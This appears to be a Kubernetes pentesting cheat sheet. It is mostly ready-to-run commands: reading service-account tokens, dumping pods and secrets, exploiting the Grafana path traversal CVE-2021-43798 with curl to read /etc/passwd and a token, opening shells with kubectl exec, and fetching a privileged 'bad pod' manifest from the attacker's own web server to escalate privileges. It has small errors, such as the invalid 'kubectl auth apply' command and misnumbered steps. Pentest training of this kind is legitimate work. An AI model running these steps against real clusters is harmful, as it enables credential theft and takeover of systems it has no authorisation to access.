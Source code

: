 ```yaml
---
title: Kubernetes Pentesting
desc: 
tags: [Container, Kubectl, Kubernetes]
alts: [JWT-Pentesting]
render_with_liquid: false
---
```


## 1. Fetch Information from Kubernetes API Server

1. **Find Token**

    ```sh
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```

2. **Decode JWT Token**

    If you get the token, decode it using some tool.  

    **[JWT.io](https://jwt.io/){:target="_blank"}** is an useful online tool.  

3. **Fetch Information**

    ```sh
    # -k: insecure (HTTPS)
    curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/pods/
    curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/secrets/
    ```

<br />

## 2. Interact with Kubernetes API Server

1. **Create a Service Account**

    ```sh
    # Create a ServiceAccount
    kubectl serviceaccount api-explorer
    # Bind the ClusterRole to the ServiceAccount
    # eg. namespace: default
    kubectl create rolebinding api-explorer:log-reader --clusterrole log-reader --serviceaccount default:api-explorer 
    ```

2. **Check Your Permission**

    ```sh
    kubectl auth can-i --list
    # /var/run/secrets/kubernetes.io/serviceaccount/token
    kubectl auth can-i --list --token=<JWT>
    ```

3. **List All Pods**

    ```sh
    kubectl get pods
    ```

4. **List All Secrets**

    ```sh
    kubectl get secrets

    # Get the specific secret
    kubectl get secret <secret-name>
    # Get the specific secret to output json
    kubectl get secret <secret-name> -o 'json'

    # List all data contained in the specific secret
    kubectl describe secret <secret-name>
    ```

5. **Get the Token (JWT) of the Service Account Running a Pod**

    ```sh
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```

<br />

## 2. Grafana Exploiting

Some Grafana versions are vulnerable to Path Traversal.  

Kubernetes creates environment variables by default.

1. **Check Environment Variables on the Target Machine**

    ```sh
    env
    ```

    If you got the GRAFANA environment like the following, the Grafana service is running on the cluster.  

    ```
    GRAFANA_SERVICE_HOST=10.108.133.228
    GRAFANA_PORT=tcp://10.108.133.228:3000
    GRAFANA_PORT_3000_TCP=tcp://10.108.133.228:3000
    ```

2. **Access the Grafana Dashboard**

    You can access the service at **http://<grafana-ip>:<grafana-port>**.  

2. **Get the JWT of the Service Account**

    Using Path Traversal (CVE-2021-43798).

    ```sh
    curl --path-as-is http://<grafana-ip>:<grafana-port>/public/plugins/alertlist/../../../../../../../../etc/passwd
    ```

    Get the token (JWT) of the service account.

    ```sh
    curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
    ```

3. **Decode the JWT and Get Sensitive Information**

    See **[JWT Pentesting](./JWT-Pentesting){:target="_blank"}**.
    

4. **Check Your Permission of This Service**

    Using the JWT, you should get permissions.

    ```sh
    kubectl auth can-i --list --token=<Grafana-JWT>

    # List pods
    kubectl get pods --token=<JWT>
    ```

5. **Get a Shell on the Grafana Pod**

    ```sh
    kubectl exec -it <grafana-pod-name> --token=<Grafana-JWT> -- /bin/bash
    ```

## 3. Privilege Escalation using Bad Pods

    Reference: [everything-allowed-exec-pod.yaml](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml){:target="_blank"}

1. **Download the Bad Pod**

    At first, you need to download the bad pod on your local machine.

    ```sh
    wget https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml -O privesc.yaml
    ```

    Then start web server to allow the target machine to get this bad pod.

    ```sh
    python3 -m http.server 8000
    ```

3. **Trasfer the Bad Pod to the Target Machine**

    On the target machine, download the bad pod from your local machine.

    ```sh
    wget http://<your-local-ip>:8000/privesc.yaml
    ```

4. **Create the Pod**

    ```sh
    # Create the pod
    kubectl auth apply -f privesc.yaml --token=<JWT>
    
    # List all pods
    kubectl get pods --token=<JWT>
    ```

5. **Get a Shell**

    ```sh
    kubectl exec -it everything-allowed-exec-pod --token=<JWT> -- /bin/bash
    ```

